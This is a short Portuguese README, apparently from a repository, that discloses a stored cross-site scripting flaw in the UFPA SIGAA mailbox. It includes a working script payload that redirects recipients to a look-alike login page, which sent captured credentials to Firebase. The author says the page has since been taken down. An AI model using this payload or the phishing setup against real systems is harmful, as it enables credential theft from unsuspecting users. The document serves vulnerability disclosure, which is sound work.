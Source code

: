 # Teste de redirecionamento de página na caixa postal do SIGAA

O teste é feito fazendo login no sigaa.ufpa.br e enviando uma mensagem para um usuário qualquer. No corpo da mensagem, utiliza-se o campo "HTML" e é inserido o seguinte texto:

```html
<p>URGENTE - TEM UM BUG NO SISTEMA</p>
<script>
window.location="https://giordanna.github.io/sigaa-teste/"
</script>
```

Quando o usuário clicar na mensagem, será redirecionado para a página similar ao login do SIGAA. Ao digitar as credenciais, o usuário e senha são enviados para o Firebase e o usuário é redirecionado novamente para a caixa de email.

## Atenção
A página do Github Pages deste repositório foi desativada e a entrada no banco de dados do Firebase. Foi apenas para demonstrar problemas de vulnerabilidade no SIGAA quando se permite que o usuário entre qualquer script no corpo da mensagem sem sanitizar o conteúdo. Redirecionamento para uma página de phishing é só apenas um dos possíveis problemas que isso pode ocorrer.
